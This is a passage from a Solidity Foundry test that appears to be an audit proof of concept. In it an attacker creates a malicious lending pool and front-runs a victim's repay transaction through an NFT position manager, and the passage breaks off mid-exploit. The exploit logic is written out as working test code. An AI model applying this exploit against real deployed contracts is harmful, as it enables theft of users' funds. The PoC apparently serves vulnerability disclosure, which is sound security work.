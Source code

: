 ```solidity
        assets[1] = address(attackerToken);

        address[] memory rateStrategyAddresses = new address[](2);
        rateStrategyAddresses[0] = address(irStrategy);
        rateStrategyAddresses[1] = address(irStrategy);

        address[] memory sources = new address[](2);
        sources[0] = address(oracleA);
        sources[1] = address(oracleA);

        DataTypes.InitReserveConfig memory config = _basicConfig();

        DataTypes.InitReserveConfig[] memory configurationLocal = new DataTypes.InitReserveConfig[](2);
        configurationLocal[0] = config;
        configurationLocal[1] = config;

        address[] memory admins = new address[](1);
        admins[0] = attacker;

        DataTypes.InitPoolParams memory p = DataTypes.InitPoolParams({
            proxyAdmin: address(this),
            revokeProxy: false,
            admins: admins,
            emergencyAdmins: new address[](0),
            riskAdmins: new address[](0),
            hook: address(0),
            assets: assets,
            rateStrategyAddresses: rateStrategyAddresses,
            sources: sources,
            configurations: configurationLocal
        });

        poolFactory.createPool(p);
        attackerPool = IPool(address(poolFactory.pools(1)));
    }

    function testPoC() public {
        DataTypes.ExtraData memory dummyData = DataTypes.ExtraData(bytes(''), bytes(''));

        _mintAndApprove(attacker, tokenA, 1 ether, address(attackerPool));
        console.log("Attacker tokenA balance before: %e", tokenA.balanceOf(attacker));

        _mintAndApprove(alice, tokenA, 1 ether, address(nftPositionManager));

        // Alice created a NFT with id = 1 to interact with `pool` (this pool is unmalicious)
        {
            vm.prank(alice);
            nftPositionManager.mint(address(pool));

            // Alice borrowed 1e18 tokenA using the NFT with id = 1
            // For the sake of simplicity, the borrowing code is not implemented
        }

        // The attacker front-ran Alice's repay transaction
        {
            vm.startPrank(attacker);
            attackerPool.supplySimple(address(tokenA), attacker, 1 ether, 0);

            // The attacker created a NFT position with id = 2
            nftPositionManager.mint(address(attackerPool));

            // The attacker supplied `attackerToken` to back the borrowing
```